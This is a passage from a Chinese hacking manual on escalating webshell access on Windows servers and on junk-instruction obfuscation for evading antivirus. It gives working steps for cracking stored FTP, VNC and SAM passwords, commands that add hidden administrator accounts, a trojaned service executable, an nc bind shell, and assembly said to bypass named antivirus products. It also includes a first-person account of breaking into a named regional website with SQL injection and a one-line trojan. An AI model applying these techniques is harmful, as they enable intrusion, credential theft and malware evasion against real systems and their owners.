

Webshell 读取出来的密码是十进制的，而在注册表中保存的密码是以十六进制保存的，这样我们就需要将十进制转化成十六进制，利用系统自带的计算器就可转换。转换成十六进制后就需要破解了，给大家推荐一款在 cmd 下运行的破解利器“VNC.EXE”。用破解得到的密码连上服务器上的 VNC，就可以拿下服务器权限了。但是这里的 VNC 桌面和我们远程控制使用的桌面是同一个账户，也就是说，当我们使用的时候，在远程主机上能看到，这点需要格外注意。

### 十五、FlashFXP 提权

sites.dat、stats.dat、quick.dat。

在这三个文件中，sites.dat 文件保存着连接站点的 FTP 账户和密码。当拿到 webshell 后尝试访问 FlashFXP 目录，下载 sites.dat 文件回本地，将本机上的 sites.dat 文件覆盖，重新打开 FlashFXP 就可连上对应的站点目录，如图 12 所示。



如果想知道对应站点的 FTP 密码，需要一些小工具来破解信息。给大家推荐使用“密码查看器”，运行此工具，然后将鼠标移到需要破解密码的文本框中就可获取密码，如图 13 所示。



到此，利用 FlashFXP 提权就讲到这里，下一节来谈谈破解 Windows 系统密码来提权。

## 十六、破解 SAM 及 HASH 值提权

记得以前网上有关于 Windows 密码的一些信息，大致就是将 “c:\windows\config” 目录下的 SAM 文件删除，然后重新启动系统就可顺利进入系统。但是这种办法常常导致系统不能进入，并不十分奏效。后来有人发现利用 “c:\windows\repair” 目录下的 SAM 文件来覆盖 config 目录下的 SAM 文件就可恢复密码。这就告诉我们，可以利用 webshell 下载 SAM 文件回本地进行破解提权。

Config 目录下的 SAM 文件是系统当前正在使用的，所以不允许下载，只能下载 repair 目录下的 SAM 文件回本地破解。接下来用 LC4 或者 LC5 来破解，一般密码数字+字母的组合在 4 天之内应该就可以跑出来。这里我想提下关于抓取 HASH 值来破解系统密码，大体上和破解 SAM 文件差不多。这里为大家介绍一款工具 SAMinside，它可以抓取系统当前用户的 HASH，并将信息输出到 PWDUMP 文件，如图 14、图 15、图 16 所示。



| 用户 | RID | LM 密码 | NT 密码 | LM-hash | NT |
|---|---:|---|---|---|---|
| Administrator | 500 | ?????????????? | ?????????????? | 7733CB7710CC7D46... | E2 |
| Guest | 501 | <禁用> | <禁用> | 00000000000000000... | 0C |
| HelpAssistant | 1000 | ?????????????? | ?????????????? | 68CE4314A7005741B... | 92 |
| SUPPORT_388945a0 | 1002 | <禁用> | ?????????????? | 00000000000000000... | 5E |
| ASPNET | 1003 | ?????????????? | ?????????????? | 948C5D9D42F1C623... | 9E |





接着把保存的文件打开，将不需要破解的用户删除掉再保存即可，最后利用 LC5 来破解。这样的破解也只能靠运气，运气好的时候很快就能破解出来。

最后和大家分享另外一款工具 AIO.exe，它也是破解系统密码的，但是不是百分之百成功，有的时候还会误报。该工具的破解原理是抓取内存中的系统账户，它需要在 CMD 下运行。

先用 Query User 来查看当前登录的用户（在 XP 下没有这个命令），然后在 CMD 中运行 AIO.EXE，如图 17 所示。


在这里主要用到的参数是 FindPassword，就是靠它来获取系统账户的信息。不过此工具的成功率不高，只能说是个思路，供大家参考下。

### 十七、G6FTP 提权

G6FTP 是一款 FTP 工具，国内用户不是很多。利用 webshell 访问 G6FTP 安装目录，安装成功后会在服务器上开启 8021 端口，在其子目录下有个 “RemoteAdmin\Remote.ini” 文件，里面包含着 G6FTP 账户和密码，如图 18 所示。


密码是 MD5 加密的，要想对 G6FTP 提权，破解此处的密码很重要。若运气好的话，密码很容易破解出来，再在本机上安装个 G6FTP 软件，上传 HTran.exe 文件到可执行目录下，此工具功能和 lcx 相似。在 webshell 中执行 “htran -p -slave 127.0.0.1 8021 肉鸡IP 7900”，将端口转发到 7900 端口上，然后在本地的 G6FTP 上连接 7900 端口就可以管理 G6FTP，接着再执行如下的系统命令就可以得到最高权限了。

> quote site "net user ly 123456 /add"  
> quote site "net localgroup administrators ly /add"

### 十八、替换服务提权

在日常入侵过程中，如果 webshell 权限足够大，就可以对某些自启动的服务进行修改和删除。以下文件都是我们常见的自启动服务，如果有权限修改的话，我们就能提权成功了。

- C:\WINNT\System32\sysdown.exe
- C:\compaq\survey\Surveyor.EXE
- C:\WINNT\System32\termsrv.exe
- C:\WINNT\system32\services.exe

webshell 对 system32 目录下的文件没有修改权限，所以对 services.exe 更名的时候会提示“没有权限”，我们可以更换个有权限的目录，比如 Survey 目录。进入 Survey 目录，更改 Surveyor.EXE 文件名称成功，如图 19 所示。

将 Surveyor.EXE 文件下载回本地，再在本地写个批处理文件，代码如下：

```bat
@echo off
net user ly$ 123456 /add
net localgroup administrators ly$ /add
```

保存为 *.bat 后，利用捆绑器将 Surveyor.EXE 和 bat 文件进行捆绑，然后传回服务器覆盖掉真实的 Surveyor.EXE。等到管理员启动计算机，或者 DDOS 服务器重新启动后就可以得到系统权限了。


### 十九、NC 反弹提权

相信大家都知道 NC，大名鼎鼎的“网络瑞士军刀”，在动力的上传问题上可立功不少。在本节提权过程中，就是利用 NC 强大的功能来获取服务器的 cmdshell，然后再利用它来获得系统最高权限。

NC 的命令参数如下：

- l
- p port
- t
- e

在拿到 webshell 后，首先查看能不能调用系统默认的 CMD。如果不能调用的话，从本地先上传一个到服务器上，执行几个命令来确认系统的 Wscript.Shell 组件是否还在，只要组件还在就有得搞。

在命令中执行 “D:\web\nc.exe -l -p 110 -t -e D:\web\cmd.exe”，意思是监听 110 端口传过来的数据。接下来在本地机器运行 telnet 服务器IP 110，就反弹个 cmdshell，如图 20 所示。


有了 cmdshell，当然也就拥有了一切，添加个账户即可，这就不用我再讲了吧！

### 二十、社会工程学提权

由于社会工程学涉及的范围太广了，不是短短一点文字就能说明完全的，建议大家购买非安全出品的《黑客社会工程学攻击》一书来研究。总而言之，社工就是通过收集各种信息，包括生日和 QQ 等相关信息来得到用户的一些资料，这里引用《黑客手册》杂志中的一篇文章，让大家了解下社工的应用。

#### 《社工渗透张家界信息港》

梦幻☆剑客

一天上网无聊，胡乱点了什么地址就跳转到了张家界信息港，网站信息内容很丰富，规模也算大，应该是地方的门户网站，如图 21 所示。


在主页看了半天也没有找到有问题的漏洞，如果有程序源代码就好了。像这样的大站，主页一般不可能有问题，所以我们要转变思路，利用狭义的旁注来找漏洞。在“视频播客”的目录下，竟然有我以前分析过的芜湖播客家园网程序，本程序存在严重的 SQL 注入漏洞，同样也存在数据库漏洞等问题。

首先访问下默认的数据库路径是否存在，在浏览器地址栏中输入“http://www.zjjinfo.org/vblog/date/%23e99cn516showcn9988%23d.asp”，显示乱码，说明数据库存在，并且里面没有防下载表，如图 22 所示。


这样我们可以在前台插入一句话木马，以前分析这个系统的时候记得后台有个文件没有经过 session 验证，导致可以直接浏览。我在 IE 地址栏中输入“http://www.zjjinfo.org/vblog/admin_moban.asp”，这个文件是后台模板添加页面，翻出文件发现这段代码：

```asp
<%
set rs=server.createobject("adodb.recordset")
sql="select * from [bgs]"
rs.open sql, Conn_User,1,3
rs.addnew
bgname=request("bgname")
point=request("point")
if not isnumeric(point) then
```## webshell 无处逃——提权 20 招

```asp
response.write "<script>alert('点数必须是数字！');history.go(-1);</script>"
response.End()
end if
bgintor=Request("bgintor")
rs("bgnname")=bgnname
rs("point")=point
rs("bgintor")=bgintor
id=rs("id")
rs("bgid")=right("0000000"&id,3)
rs.update
response.Redirect "admin_moban.asp"
%>
```

代码中对取得的 bgnname 变量没有经过任何函数过滤，直接写入数据库中，在里面添加一句话木马，就可以成功写入数据库，如图23所示。


用一句话木马客户端连接上去便可得到 webshell。拿到 webshell 后发现服务器的安全配置很差劲，可以浏览任何盘符，并且发现还有几个站点也在这个服务器上，这样意味着 ASP 木马的权限很高。

接着到 Serv-U 目录下，发现没有安装 Serv-U，再来 到 All Users 目录下，同样也没有安装 PcAnywhere。好在管理员没有将 wscript.shell 去掉，这样可以执行 CMD 命令。

尝试访问 CMD 命令，提示“拒绝访问”。一般 Windows 2003 对 guest 组账户都没有访问 cmd 的权限，如图24所示。


我本地上传个 CMD，这样就可以执行命令了。查看端口，发现开了很多的服务，可是没有我所需要的端口，只看到了常见的 SQL SERVER 端口1433，还有139端口，如图25所示。


通过 CMD 命令我发现，本服务器的 IP 地址为 192.168.0.253，这个地址为 C 类地址，应该是在局域网使用的比较多。我开始怀疑这个服务器是否处于内网中。后来在利用 ASP 木马的“自动登录”功能时，发现管理员给我留下了一份大礼，可以清晰地显示管理员的账户和密码，以及终端服务的端口信息，如图26所示。

| 项目 | 信息 |
|---|---|
| 当前终端服务端口 | 911 |
| 自动登录的系统账户 | knney |
| 自动登录的账户密码 | knneywywb |

真的是得来全不费工夫啊！感觉这个服务器已经在向我招手了，但是 IP 地址明显为内网地址，尝试连接 IP 地址，正如我所想一样，连接失败。我估计这台服务器对内网 IP 为 192.168.0.253，对外网我可以用 ping 命令来查看下它的网站域名所对应的 IP。PING 命令结果如图27所示。


我们发现 IP 地址为 220.168.206.99，这个应该就是外网 IP 了，这样就可以连接服务器了。在远程桌面连接器中输入 IP、密码和账户后成功进入。大家看到这里肯定以为服务器搞定了！可是不然，进去后只看到桌面一闪，马上桌面给锁定了，貌似和网吧一样，需要密钥认证，如图28所示。


既然这样，我也只好利用社会工程学了。因为服务器密码已经知道，首先尝试了下，没有想到居然失败了！再次输入服务器账户名称，成功进入服务器。总而言之，最后是利用自动登录读取的账户当作密码而成功进入了服务器，如图29所示。


文章结束，并无太多出彩内容，主要还是管理员安全意识不强，没有将服务器一些危险组件禁用，更没有想到的是利用 webshell 竟然可以读出注册表中管理员密码和账户。然后利用经验成功找到外网 IP，最后利用社会工程学成功破解桌面锁定。整个提权过程中，经验、耐心以及细心是必不可少的，希望大家能多多体会。

## 与杀软的周旋——免杀大应用

免杀技术算不上主流的计算机技术，更不能作为一种正规的养家糊口的方式。但是免杀是一种超越性技术追求过程，能培养你的创新精神。我们也能够发现，每个免杀技术爱好者，对于免杀都有自己的独到之处。免杀过程中要用到的知识也是非常丰富，它需要了解 PE 文件结构、反汇编、编程等各种相关知识，甚至还要分析杀毒软件的机理，以及各种工具的配合运用。你可以从这个过程中不断提高自己的知识水平，扩展自己的知识结构。

### 一、花指令入门篇——认识和编写简单的花指令以及花指令工具的使用

花指令说白了就是垃圾指令，其本身对程序的运行没有任何影响，用于加密程序、反调试、混淆代码，起到防破解的作用。早期在一些加密壳中大量存在，后来被用在了免杀上，可以说是风行一时，沿用至今。

在三年前，花指令对于免杀相当奏效。而今，杀毒软件对付这种雕虫小技已经绰绰有余了，但是花指令在免杀中依然有不可或缺的地位。所以认识花指令、会编写花指令、会运用花指令，对于初学免杀的朋友来说还是很重要的。

先来认识一下花指令。在说这个之前大家还是要稍稍懂得一点点汇编知识。相信只要接触过免杀的人一定接触过汇编指令，我们就用实例来说明，下面先解释一些简单指令的含义。

- push ebp：把基址指针寄存器压入堆栈  
- pop ebp：把基址指针寄存器弹出堆栈  
  压入后又弹出，相当于什么也没做
- push eax：把数据寄存器压入堆栈  
- pop eax：把数据寄存器弹出堆栈  
  压入后又弹出，相当于什么也没做
- add esp,1：指针寄存器加1（其中的1可以是任意数，但要和下一句对应，下同）  
- sub esp,1：指针寄存器减1  
  加上1又减去1，相当于什么也没做
- inc ecx：计数器加1  
- dec ecx：计数器减1  
  加上1又减去1，相当于什么也没做
- add esp,1：指针寄存器加1  
- add esp,-1：指针寄存器加-1，相当于减1  
  加上1又减去1，相当于什么也没做

nop 等效 mov edi,edi，不执行任何操作的指令。

从以上几个简单的指令可以看出，每一对执行后都相当于什么也没做，也就是要保持花指令堆栈平衡。所谓堆栈平衡，可以做一个简单的比喻：像 push、pop、add、sub 等这些指令的操作，可以比喻成对 esp、eax、ebx、ecx 等，或者对数据做数学运算，而得到的结果必须为0，这就保持了花指令堆栈的平衡。

一个花指令就是由这些指令组合起来的，经过编排后，最后跳向程序的入口位置，这就用到了跳转指令。下面就介绍几个用于跳转的指令：

### 小提示

- JZ/JE：相等或为零则跳转
- JNZ/JNE：不相等或不为零则跳转
- JL/JLE：小于/小于或等于则跳转
- JG/JGE：大于/大于或等于则跳转
- JMP：无条件跳转

一般加完花指令的程序，都把程序入口点更改为花指令的起始位置，最后还要通过跳转指令跳到原来的入口点。所以以上的跳转指令除 JMP 是无条件跳转，可以直接跳到目标地址外，其他的就要组合写。后面的内容会介绍一些其他的跳转方式，例如 JNZ 和 JNE 可以组合着写成以下形式：

- JNE 入口地址
- JNZ 入口地址

这样连续写就形成了无条件跳转，因为它们是相反条件，组合写在一起就构成了无条件跳转。大家到这里应该对花指令有一个简单的认识了，建议看看相关的汇编指令手册或者黑夜彩虹编写的汇编指令查询器。

下面先介绍一下加花指令工具的使用，再来深入地接触一下花指令。先来看第一款“木马彩衣”，如图1所示。


我们就以第一个花指令为例，点击“浏览”选择要加花指令的文件，然后点击“穿上”，就为目标程序加上了花指令。加花器会自动更改程序入口到花指令的起始位置，加完之后我们用 OllyICE 载入加花后的文件，如图2所示。

| 地址 | 机器码 | 指令 | 操作数 |
|---|---|---|---|
| 0040A0CB | 55 | push | ebp |
| 0040A0CC | 8BEC | mov | ebp, esp |
| 0040A0CE | 83C4 F4 | add | esp, -0C |
| 0040A0D1 | 83C4 0C | add | esp, 0C |
| 0040A0D4 | B8 71804000 | mov | eax, 00408071 |
| 0040A0D9 | 50 | push | eax |
| 0040A0DA | C3 | retn |  |

这是一个十分简单的花指令，我们来分析一下代码：

```asm
push ebp            ; 将ebp压栈
mov ebp, esp        ; 用ebp代替esp，这两句不是花指令，一般程序入口存放这两句，花指令的开头也可以加上这两句
add esp,-0C         ; 这句和下面一句一起构成垃圾指令
add esp,0C          ; 上句减去0C，本句加回来，保持堆栈平衡
mov eax,00408071    ; 00408071是真正的入口，赋给EAX
push eax            ; 和下一句retn构成一个跳转，跳到EAX存放的地址00408071
retn
```

七行代码构成了一个简单的花指令，其中花指令的主体只有两句：add esp,-0C 和 add esp,0C。再来看另一款加花器“超级加花1.8”，如图3所示。


这款加花器算是比较完美的了，里面的大多数花指令全部来自加壳文件中的提取，共有48个花指令，而且支持自定义加花，可以向里面不断添加。

加花过程很简单，将文件拖拽到界面上来，选择一个花指令，区段名最好更改一下，之后点击“加花”就可以了。加花后要测试加花的程序，有时候可能不会运行，这时可以换个花试试。

这里我随便找了个花，然后拿出来简单分析一下：

```asm
00411000 > 60                pushad                 ; 这个是将寄存器依次入栈
00411001   E8 11000000       call 00411017          ; call调用指令，调用00411017处向下执行
00411006   5D                pop ebp                ; 无用，不执行
00411007   83ED 06           sub ebp,6              ; 无用，不执行
0041100A   80BD E0049090 00  cmp byte ptr [ebp+909004E0],1 ; 无用，不执行
00411011   0F84 F2FFCC0A     je 0B0E1009            ; 无用，不执行
00411017   68 50C54000       push 0040C550          ; 被call调用直接跳向程序原入口
0041101C   C3                retn                   ; 和push结合跳向0040C550（入口地址）
0041101D   90                nop
```

这也是一个很简单的花指令，call 和 push 之间全是无用指令，随便写，因为 call 调用 00411017 后就跳向入口了。

以上简单介绍了两款加花器的使用，并简单分析了两个简单的花指令。网上这种加花工具很多，大家可以自己去找找。

最后再说一下如何使用自定义加花。首先自己要编写一个花指令，我们可以按照前面所说的内容来写一个简单的花指令，之后用自定义加花加在我们的程序上。这里我随便编写一个，代码如下：

```asm
push ebp            ; 花指令的开始，程序的新入口地址
mov ebp,esp         ; 通用的两句，一般放在花指令开头
add eax,11223344
sub eax,11223344    ; 加上11223344再减去11223344
push eax            ; 使数据寄存器eax入栈
pop eax             ; 使数据寄存器eax出栈
jmp 入口            ; 跳转到程序的原来入口
```

现在打开 OllyICE，随便载入一个应用程序，找到一个空白处，也就是全是00填充的区域，然后按鼠标右键，选择下拉菜单里的“汇编”，如图4所示，开始一句一句地写入以上花指令，如图5所示。


花指令添加好后不用写跳转指令，因为是用第二款工具自定义加花，它会自动生成跳转指令，手工加花的时候才需要自己来写跳转，这个在后面的内容中会介绍。

接着将图5中左边的机器码区域里的16进制数据提取出来，要挨着写，没有空格，如：558BEC05443322112D44332211505890，然后把这一串数据写在花指令内容里，如图6所示。


花指令名称可以随便填写，之后点击“保存”，花指令就存储在加花器同目录下的 Script.ini 配置文件中了。这时在加花器的下拉菜单会出现我们新添加的花指令，然后选择一个程序，用新出炉的花指令加上吧。加好后用 OllyICE 载入，看看是否加花成功，载入后的效果如图7所示。

可以看到，和我们前面编写的花指令是一样的，只是后面多了两句，这个是程序自动加在花指令后面的：

```asm
push 00401000
retn
```

| 地址 | 机器码 | 指令 | 操作数 |
|---|---|---|---|
| 0046C000 | 55 | push | ebp |
| 0046C001 | 8BEC | mov | ebp, esp |
| 0046C003 | 05 44332211 | add | eax, 11223344 |
| 0046C008 | 2D 44332211 | sub | eax, 11223344 |
| 0046C00D | 50 | push | eax |
| 0046C00E | 58 | pop | eax |
| 0046C00F | 90 | nop |  |
| 0046C010 | 68 00104000 | push | 00401000 |
| 0046C015 | C3 | retn |  |

（注：表格内为汇编代码展示区域）


这两句相当于一个跳转，是跳回程序原来的入口。打开后程序可以正常运行，证明这个花指令已经成功执行，这样我们就可以 DIY 自己的花指令。编写完花指令后，可以将花指令存储在配置文件中，不用每次都手工加了。

即使是入门的东西也是要有基础的，网上教程满天飞，这里就稍稍说一些，希望能够引发一点初学者的兴趣。这些都是最基本的东西了，如果想更深入地了解，一定要多看看汇编指令手册之类的东西，甚至系统地学习下汇编。

### 二、花指令进阶篇——打造属于自己的全免杀花指令

花指令在免杀中占有重要地位，网上已经公布的花指令几乎全部被杀。以往在免杀中逐条编写的指令，免杀效果已经相当不好，本文就通过两个实例，并运用一些技巧，来打造几个完全属于自己的免杀花指令。

对于花指令的编写，基础是很简单的，甚至主干部分就几条指令。我们可以在构造过程中，在不执行的地方随意添加垃圾代码。举个简单的例子，请看下面一段花指令：

- 00401134 00 db 00
- 00401135 EB 03 jmp short 0040113A
- 00401137 00 db 00
- 00401138 00 db 00
- 00401139 00 db 00
- 0040113A EB 03 jmp short 0040113F
- 0040113C 00 db 00
- 0040113D 00 db 00
- 0040113E 00 db 00
- 0040113F EB 03 jmp short 00401144
- 00401141 00 db 00

这段指令是一个三连跳，每两个跳转之间的指令都是不执行的，所以 JMP 与 JMP（其中的 JMP 还可以换成 CALL）之间就可以随意写垃圾指令。这样的跳转不会影响程序的执行，因为在程序的执行流程里不经过这里。我们来看一个类似于这样的花指令，代码如下：

```asm
00408000 > 60
pushad
00408001 E8 03000000
call 00408009                  ; 进入00408009处执行
00408006 E9 EB045D45
jmp 459D84F6                   ; 被花掉的部分，隐含指令在里面
0040800B 55
push ebp
0040800C C3
retn
0040800D E8 01000000
call 00408013                  ; 进入00408013继续执行
00408012 EB 5D
jmp short 00408071
00408014 BB EDFFFFFF
mov ebx, -13
00408019 03DD
add ebx, ebp
0040801B 81EB 00400000
sub ebx, 4000
00408021 61
popad
00408022 50
push eax                        ; 对应下面的 pop eax
00408023 64:A1 18000000
mov eax, dword ptr fs:[18]
00408029 8B40 30
mov eax, dword ptr [eax+30]
0040802C 0FB640 02
movzx eax, byte ptr [eax+2]
00408030 85C0
test eax, eax
00408032 75 FE
jnz short 00408032             ; 跳向本身的内存地址，相当于nop
00408034 58
pop eax                         ; 和 push eax 之间的指令全是废指令
00408035 E9 9A0FFFF
jmp 004010D4
```

以上是在一个花指令添加器中提取出来的花指令，这个花指令可以过掉卡巴斯基。看到这样的花指令，似乎说不明白其中的道理，表面上看似乎堆栈都是不平衡的。其实这个花指令的主干也就几条指令，在机器码不变的情况下，把它的过程梳理清楚就会看明白了。

下面是梳理清楚后的代码，机器码都是没变的：

```asm
00408000 > 60
pushad
00408001 E8 03000000
call 00408009
; 到00408009处执行，同时把下一地址00408006压入堆栈

00408006 E9
00408007 EB 04
jmp short 0040800D

00408009 5D
pop ebp
; 由上面的call转向这里执行，把ebp弹出栈，ebp=00408006，也就是call的下句地址

0040800A 45
inc ebp
; ebp+1=00408007

0040800B 55
push ebp
; 将ebp存放的地址00408007入栈

0040800C C3
retn
; 返回到push压入的地址00408007

0040800D E8 01000000
call 00408013
; 由00408007跳向这里之后到00408013处去执行

00408012 EB
00408013 5D
pop ebp
; 此处开始到popad都是无作用的指令

00408014 BB EDFFFFFF
mov ebx, -13
00408019 03DD
add ebx, ebp
0040801B 81EB 00400000
sub ebx, 4000

00408021 61
popad
; 和pushad闭合

00408022 50
push eax
; 将eax入栈

00408023 64:A1 18000000
mov eax, dword ptr fs:[18]
00408029 8B40 30
mov eax, dword ptr [eax+30]
0040802C 0FB640 02
movzx eax, byte ptr [eax+2]
00408030 85C0
test eax, eax
00408032 75 FE
jnz short 00408032
; 这句相当于nop，是跳向本身地址的

00408034 58
pop eax
; 将eax出栈
```## 与杀软的周旋——免杀大应用

通过以上的解释应该明白这个花指令了。现在我们来构造一个属于自己的花指令，构造框架如下：

- X1 call X3 新入口
- X2 xxxxxxxx（xxxxxxxx 是随意写的指令）
- X3 call X4
- X4 xxxxxxxx（xxxxxxxx 是随意写的指令）
- X5 JMP X7
- X6 xxxxxxxx（xxxxxxxx 是随意写的指令）
- X7 JMP 原来入口

这个花指令的主体是由两个 call 和两个 jmp 构成，而中间 xxxxxxxx 处的指令可以在 OllyICE 里通过二进制编辑随便写，因为这个地方的指令在程序里不执行。在构造好框架之后，下面就是完整的花指令了：

```asm
004010F8   8485 00000000 test   byte ptr [ebp], al
004010FE   DFDF          fistp  edi
00401100   1257 41       adc    dl, byte ptr [edi+41]
00401103   51            push   ecx
00401104   54            push   esp
00401105   64:54         push   esp
00401107   60            pushad
00401108   2D 08114000   sub    eax, 00401108
0040110D   EB C5         jmp    short 004010D4
0040110F   14 51         adc    al, 51
00401111   56            push   esi
00401112   60            pushad
00401113   80E8 25       sub    al, 25
00401116   0000          add    byte ptr [eax], al
00401118   00FE          add    dh, bh
(说明：以上三句是 OllyICE 里面显示被花掉的效果，而 00401114 是程序的新入口，这里真正要执行的代码是这句：
00401114 > E8 25000000 call 0040113E，仔细对照机器码)
0040111A   BB DFBEFE44   mov    ebx, 44FEBEDF
0040111F   5D            pop    ebp
00401120   F4            hlt
00401121   54            push   esp
00401122   B5 45         mov    ch, 45
00401124   74 45         je     short 0040116B
00401126   46            inc    esi
00401127   8548 64       test   dword ptr [eax+64], ecx
0040112A   4E            dec    esi
0040112B   48            dec    eax
0040112C   874F 68       xchg   dword ptr [edi+68], ecx
0040112F   4A            dec    edx
00401130   44            inc    esp
00401131   DA87 FE54A5F5 fiadd  dword ptr [edi+F5A554FE]
00401137   4F            dec    edi
00401138   6A 6A         push   6A
0040113A   4A            dec    edx
0040113B   5F            pop    edi
0040113C   D4 00         aam    0
0040113E   E8 01000000   call   00401144
00401143   50            push   eax
00401144   05 08114000   add    eax, 00401108
00401149   50            push   eax
0040114A   C3            retn
0040114B   DFDF          fistp  edi
0040114D   DF45 6F       fild   word ptr [ebp+6F]
00401150   54            push   esp
00401151   6A D4         push   -2C
00401153   45            inc    ebp
00401154   45            inc    ebp
00401155   FA            cli
00401156   0000          add    byte ptr [eax], al
```

以上这个花指令足以让人头大了，但是仔细分析，就是前面我们构造出来的框架，下面来对照一下。

花指令 00401114 地址这里的 call 相当于框架中 X1 那个地址的 call，它 call 到 0040113E 这个地址来执行；0040113E 地址这里的 call 相当于框架中 X3 地址的那个 call，这个 call 指向 00401144 这个地址；00401144 这个地址和向下的两句相当于框架中 X5 地址的这个跳转；00401108 和下面那句构成了相当于框架中 X7 处的跳转。

分析完对应关系，再来说一下执行的流程。程序从 00401114 进入后，遇到第一个 call，之后来到 call 后 0040113E 这个地址来执行。在这里遇到了第二个 call，之后来到这个 call 后的地址（00401144）继续执行。在这里，由于程序开始时寄存器 eax 的值为 0，所以用加法加上一个地址后，eax 里面存放的就是 00401108 这个地址。

之后把这个地址入栈，retn 返回到这个地址处执行，也就是跳转到 00401108。来到这里先将 eax 的值恢复，也就是还原 eax 的值为开始时候的 0，之后紧接着下一句 jmp 跳向程序的原来入口。

所以我们看到，在这些框架指令之间夹杂的指令全是无用指令，仅仅是用来迷惑视线和杀毒软件的。经过测试，这个花指令过掉了卡巴、江民、金山，其他杀软未做测试。

### 小结一下

对于花指令的编写，重要的是框架和过程的构造，其他部分的不执行代码是随意写上去的，根本不会影响整个程序的执行流程，而框架部分的执行过程是要保持堆栈平衡的。

### 再来看一个比较变态的花指令

```asm
00408000 >- 75 FE            jnz    short 00408000
00408002   - 75 FE           jnz    short 00408002
00408004   - 75 FE           jnz    short 00408004
00408006   - 75 FE           jnz    short 00408006
00408008   - 75 FE           jnz    short 00408008
0040800A   - 75 FE           jnz    short 0040800A
0040800C   7B FE             jpo    short 0040800C
0040800E   7B FE             jpo    short 0040800E
00408010   7B FE             jpo    short 00408010
00408012   7B FE             jpo    short 00408012
00408014   7B FE             jpo    short 00408014
00408016   7B FE             jpo    short 00408016
00408018   7B FE             jpo    short 00408018
0040801A   7B FE             jpo    short 0040801A
0040801C   7B FE             jpo    short 0040801C
0040801E   7B FE             jpo    short 0040801E
00408020   - 75 FE           jnz    short 00408020
